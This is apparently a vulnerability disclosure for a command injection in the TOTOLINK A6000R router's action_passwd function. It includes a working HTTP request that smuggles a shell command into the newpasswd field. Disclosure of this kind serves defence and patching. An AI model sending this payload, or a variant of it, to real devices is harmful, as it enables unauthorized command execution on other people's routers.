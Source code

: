 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (action_passwd)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/admin/system.lua` file, there is a **command injection vulnerability** in the `action_passwd` function via the `newpasswd` parameter.

![](./2.png)

Entry: `/admin/system/passwd?newpasswd=xxx&&confpasswd=xxx`

![](./3.png)



## Payload

We can trigger this vulnerability by injecting the `ls />/www/222.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/system/passwd?newpasswd=;ls%20/>/www/222.txt&&confpasswd=;ls%20/>/www/222.txt HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=866791d2d6acb92c0a96268cb255aa80
```

![](./4.png)



After the injection, we can verify the result.

![](./5.png)

